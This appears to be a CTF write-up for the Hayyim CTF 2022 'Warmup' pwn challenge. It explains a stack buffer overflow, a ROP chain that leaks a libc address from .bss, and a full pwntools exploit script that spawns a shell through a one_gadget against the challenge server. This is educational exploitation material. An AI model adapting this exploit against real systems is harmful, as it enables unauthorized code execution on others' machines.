 #### **Warmup,**

.

well..

as its name indicates Warmup was a warmup pwn challenge from Hayyim CTF 2022.

Hayyim CTF had very good challenges, but I did not have time to participate..(I was working on defcamp CTF at the same time)

I will do a small write up for people beginning with pwn, as it is very simple to exploit actually..

ok, so we have this small program, with an obvious buffer overflow, and very few gadgets..

let's look at the reverse:

![IDA Reverse](https://github.com/nobodyisnobody/write-ups/raw/main/Hayyim.CTF.2022/pwn/warmup/pics/reverse.png)

ok , we can see that the vuln function, reserve 0x30 bytes on stack for his input,

and read 0xC0 bytes in it from the user..  obviously too much..

We will do the exploitation in two rounds, but the payload will be send in one time.

At the end of the vulnerable function, stack is increased of 0x30 bytes, than rbx is popped from stack, and there is the ret.

![.bss memory](https://github.com/nobodyisnobody/write-ups/raw/main/Hayyim.CTF.2022/pwn/warmup/pics/memory.png)

When examining the .bss memory above, you can see that there are 3 libc addresses that we can leak, stdin, stdout & stderr,

and one thing important too, that memory zone is writable (it is .bss)

What we do first, is to set rbx to points to 8 bytes before stderr, at 0x601018, then we return to 0x40055d.

At the end of the vuln function, rdi, rsi and rdx are set correctly by the last read, so when we jump to 0x40055d,

the content of the stack will be dumped, and just after the call to write, rsi will be set to the value in rbx that we set before.

So now, the next read will be on this zone pointed by rbx (and now rsi) , that is the address 8 bytes before stderr on bss.

So with the next read, we fill the 8 bytes before stderr, and stop just before. We send just 8 bytes this time so..

And our ROP; return again to 0x40055d, so that time the value of stderr will be leaked.

see the leaked stderr libc address , after the 8 chars 'A' we sent:

![leaked stderr address](https://github.com/nobodyisnobody/write-ups/raw/main/Hayyim.CTF.2022/pwn/warmup/pics/leak.png)

With that value, we will calculate the remote libc mapping address.

and this time we will return to the beginning of the vuln function at 0x40053d, to set rsi to point on stack again..

and to send our last payload, that will contain only a single onegadget value.

We could also have send a system('/bin/sh') now that we know libc remote address...

here is the exploit so...

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', filename]).decode().split(' ')]

exe = ELF('./warmup')
libc = ELF('./libc.so.6')

host, port = "141.164.48.191", "10001"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process(exe.path)


# 1st round , set rbx = 0x601018 point 8bytes before stderr address on .bss
payload = 'A'*0x30+p64(0x601018)+p64(0x40055d)+p64(0)*6
# 2nd round, now rsi will point to 0x601018 (that we pass at the 1st round in rbx, and we will dump stderr value)
payload += p64(0x601018)+p64(0x40055d)+p64(0)*6+p64(0x601018)+p64(0x40053d)

p.sendafter('> ', payload)
buff  = p.recv(0xc0)

# write 8 bytes just before stderr address on .bss
p.send('A'*8)
# receive out stderr leak
buff  = p.recv(0xc0)
print(hexdump(buff))
leak = u64(buff[0x8:0x10])
print('leak = '+hex(leak))
libc.address = leak - libc.symbols['_IO_2_1_stderr_']
print('libc.address = '+hex(libc.address))

# write again 8 bytes just before stderr address on .bss
p.send('A'*8)

# now that we know remote libc mapping address, we send a onegadget for our final payload, that will do system('/bin/sh')
onegadgets = one_gadget('libc.so.6', libc.address)
payload = 'A'*0x30+p64(0x601018)+p64(onegadgets[1])+p64(0)*10
p.sendafter('> ', payload)

# enjoy shell
p.interactive()
```

seeing is believing...

![shell is coming..!!](https://github.com/nobodyisnobody/write-ups/raw/main/Hayyim.CTF.2022/pwn/warmup/pics/gotshell.gif)

*nobodyisnobody still pwning things*  (like a ghost in the machine..)



